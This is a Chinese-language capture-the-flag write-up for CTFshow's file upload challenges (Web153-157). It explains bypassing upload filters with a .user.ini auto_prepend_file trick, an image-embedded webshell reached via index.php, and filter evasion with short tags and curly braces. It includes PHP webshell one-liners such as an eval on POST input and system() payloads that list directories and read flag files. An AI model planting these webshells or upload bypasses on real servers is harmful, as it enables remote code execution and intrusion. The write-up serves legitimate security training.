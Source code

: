 # CTFshow 文件上传

**题目范围：Web151 - Web170**



## Web 153 .user.ini

这个题有必要写一写WP，在修改了前端，并且Burp拦截修改MIME之后，.php依旧是传不上去。

那就用.user.ini，其内容是`auto_prepend_file=yi.png`，然后依旧是改前端，改MIME，将这个文件上传了上去。第二步就是上传yi.png（图片马），这个就是png，也没什么好改的。

**注意！**这之后蚁剑连接的不应该是yi.png，也不是yi.php，而应该是.user.ini目录下的任何一个php文件，所以我们连接 index.php

**关于.user.ini**`.user.ini`使用范围很广，不仅限于 Apache 服务器，同样适用于 Nginx 服务器，只要服务器启用了 fastcgi 模式 (通常非线程安全模式使用的就是 fastcgi 模式)。

**局限：**在.user.ini中使用这条配置也说了是在同目录下的其他.php 文件中包含配置中所指定的文件，也就是说需要该目录下存在.php 文件，通常在文件上传中，一般是专门有一个目录用来存在图片，可能小概率会存在.php 文件。

但是有时可以使用 ../ 来将文件上传到其他目录，达到一个利用的效果。





## Web 154

相对于上一关来说，过滤了php，我们可以大写绕过，也可以使用php短标签。

但是问题是，我是看了WP才知道的啊……（流汗黄豆）这该咋办。





## Web 156

这关更离谱，过滤了`[]`，所以我们只能用花括号替代中括号，一句话木马就只能是

`<?= @eval($_POST{'a'});?>`

这不看WP怎么会知道啊。





## Web 157

越来越离谱了，这一关过过滤了php、`[]`、`{}`。

但是我们还是可以执行任意php语句呀，只是没办法上传php了而已。所以还是先上传.user.ini，然后上传图片的内容应该是`<?=system('ls ../')?><?=system(tac fla*)?>`，然后是`<?=system(tac fla*)?>`




